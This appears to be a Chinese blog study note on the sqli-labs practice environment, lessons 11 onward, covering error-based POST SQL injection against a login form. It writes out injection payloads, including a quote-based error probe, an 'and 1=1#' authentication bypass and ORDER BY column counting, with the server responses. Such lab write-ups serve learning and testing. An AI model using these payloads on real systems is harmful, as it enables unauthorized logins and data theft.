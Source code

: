 ```yaml
---
title: sqli labs lesson 11~17 学习
date: 2016-08-26 21:37:10
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---
```

lesson 11~16的 SQL Injection 原理和lesson 1~10一样，只是lesson 11~16 是通过post传参，即在页面文本框中输入数据，而lesson 1~10是URL中传参。


# 1 lesson 11 POST-基于错误-单引号
在输入框输入 admin 和 password，页面显示 `LOGIN ATTEMPT FAILED`
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f77hdibrafj30k00cimz4.jpg)

## 1.1 判断注入类型
输入 | 结果
-- | --
`admin password`   | 页面显示 `LOGIN ATTEMPT FAILED`
`admin password"`   | 页面显示 `LOGIN ATTEMPT FAILED`
`admin password'`  | 页面显示语法错误

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f77hmjpaa7j311t07twfw.jpg)
"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''password'' LIMIT 0,1' at line 1"

说明是基于错误的、单引号注入

sql 语句 ：`select * from tables where username='$username' and password='$password' limit 0,1`

## 1.2 验证注入类型
- 参数 $username=`admin' and 1=1#`   $password 为空
- sql 语句  `select * from tables where username='admin' and 1=1#' and password='' limit 0,1`

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f77hwezjw1j30k00f2mzb.jpg)

账号：admin   密码：admin
SUCCESSFULLY LOGGED IN

## 1.3 order by 判断字段个数
username | 结果
-- | --
admin' and 1=1 order by 1# | SUCCESSFULLY LOGGED IN
admin' and 1=1 order by 5# | Unknown column '5' in 'order clause'  &  LOGIN ATTEMPT FAILED
admin' and 1=1 order by 3# | Unknown column '3' in 'order clause'  &  LOGIN ATTEMPT FAILED
admin' and 1=1 order by 2# | SUCCESSFULLY LOGGED IN
